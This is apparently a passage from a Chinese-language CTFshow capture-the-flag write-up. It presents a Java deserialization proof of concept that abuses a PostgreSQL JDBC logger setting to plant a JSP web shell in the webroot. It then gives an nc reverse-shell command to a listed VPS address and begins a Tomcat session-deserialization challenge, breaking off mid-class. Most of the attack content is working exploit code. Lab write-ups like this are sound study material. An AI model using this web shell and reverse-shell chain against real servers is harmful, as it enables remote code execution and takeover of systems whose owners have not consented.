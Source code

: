 构造`Poc`  
```java  
package com.ctfshow;    
    
import com.ctfshow.entity.Connection;    
import com.ctfshow.entity.User;    
    
import java.io.*;    
import java.lang.reflect.Field;    
import java.util.Base64;    
    
public class Vuln{    
    public static void main(String[] args) throws Exception{    
        Connection connection = new Connection();    
        setFieldValue(connection,&#34;driver&#34;,&#34;org.postgresql.Driver&#34;);    
        setFieldValue(connection,&#34;host&#34;,&#34;124.220.215.8&#34;); //vps 地址    
        setFieldValue(connection,&#34;port&#34;,3300); //vps端口    
        setFieldValue(connection,&#34;user&#34;,new User(&#34;huahua&#34;,&#34;1&#34;));    
        setFieldValue(connection,&#34;schema&#34;,&#34;jdbc:postgresql&#34;);    
        setFieldValue(connection,&#34;database&#34;,&#34;loggerLevel=DEBUG&amp;loggerFile=../webapps/ROOT/hack.jsp&amp;&lt;%Runtime.getRuntime().exec(request.getParameter(\&#34;huahua\&#34;));%&gt;&#34;);    
    
        ByteArrayOutputStream baos = new ByteArrayOutputStream();    
        ObjectOutputStream ois = new ObjectOutputStream(baos);    
        ois.writeObject(connection);    
    
        String payload = Base64.getEncoder().encodeToString(baos.toByteArray());    
        System.out.println(payload);    
    }    
    
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {    
        Field field = obj.getClass().getDeclaredField(fieldName);    
        field.setAccessible(true);    
        field.set(obj, value);    
    }    
    
}  
```  
写入后，访问`/hack.jsp`  
传入`huahua=nc 124.220.215.8 1234 -e /bin/sh`  
## Web858  
`tomcat的session反序列化`  
https://www.freebuf.com/articles/web/242782.html  
`User`类中存在`readObject`的点，并且存在`RCE`  
```java  
package com.ctfshow.entity;  
   
import java.io.IOException;  
import java.io.ObjectInputStream;  
import java.io.Serializable;  
   
public class User implements Serializable {  
    private static final long serialVersionUID = -3254536114659397781L;  
    private String username;  
    private String password;  
   
    public String getUsername() {  
        return username;  
    }  
   
    public void setUsername(String username) {  
```
